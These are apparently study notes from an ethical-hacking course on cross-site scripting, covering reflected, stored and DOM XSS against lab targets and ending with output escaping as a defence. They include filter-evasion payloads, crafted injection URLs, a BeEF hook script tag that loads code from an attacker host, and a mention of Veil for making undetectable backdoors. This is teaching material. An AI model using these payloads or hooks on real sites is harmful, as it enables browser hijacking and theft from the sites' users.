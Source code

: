 # XSS Vulns

## XSS - Cross Site Scripting Vulns

1. Allow an attacker to inject javascript into the page
2. Code is execute when the page loads
3. Code is executed on the CLIENT machine not the SERVER

## Three main types:

1. Persistent/Stored XSS
2. Reflected XSS
3. DOM based XSS

## Discovering XSS:

1. Try to inject JS code into the pages
2. Test text boxes and url parameters on the form
   => http://target.com/page.php?something=something

### Reflected XSS:

1. None persistent, not stored
2. Only works if the target visits a specially crafted url
   => http://target.com/page.php?something=<
   script>alert('XSS')</script>
   => http://10.0.2.4/dvwa/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(%22xss%22)%3C/script%3E#

#### Advanced Reflected XSS:

cheat sheet : https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet

<
sCriPt>alert('XSS')</
sCriPT>

<
a onmounseover="alert('xss')">xss links</
a>
<
img SRC=# onmouseover="alert('xss')">

<
img SRC=/ onerror="alert('xss')"></
img>

See this code http://ID_ADRESS/mutillidae/index.php?page=password-generator.php&username=anonymous
typically when can inject XSS instead of 'anonymous' at the end
Seeing the following code :

<
script>
try{
document.getElementById("idUsernameInput").innerHTML = "This password is for anonymous
}catch(e){
alert("Error: " + e.message);
}// end catch
</
script>

We modified our XSS injection to :
http://IP_ADDRESS/mutillidae/index.php?page=password-generator.php&username=" ; alert('XSS');//

### Stored XSS

1. Persistent, stored on the page or DB.
2. The injected code is executed everytime the page is loaded.

Using charCode to run our XSS

<
sCriPt>alert(string.fromCharCode(120, 115, 115, 50))<
/sCriPT>

## Exploiting XSS - BEEF Framework

1. Run any javascript code
2. Targets can be hooked to beef using javascript code
3. Browser Exploitation Framework allowing us to launch a number of attacks on a hooked target

=> Inject Beef hook in vulnerable pages
=> Execute commands from BEEF

All you have to is to inject this code
< script src="http://< IP>:3000/hook.js"></ script>

## Exploiting XSS - VEIL - Framework

1. A backdoor is a file that gives full control over the machine that it gets executed on.
2. Backdoors can be caught by Anti-Virus programs.
3. Veil is a framework generating Undetectable backdoors.

## Preventing XSS Vulns

1. Minimize the usage of user input on html.
2. Escape any untrusted input before inserting it into the page.

The input is filtered by the function htmlspecialchars(). It convers everything to hmtl code.

< ?php

if(!array_key_exists ("name", $_GET) || $\_GET['name'] == NULL || $_GET['name'] == ''){
    
 $isempty = true;

} else {

echo '< pre>';

echo 'Hello ' . htmlspecialchars(\$\_GET['name']);

echo '</ pre>';

}

?>
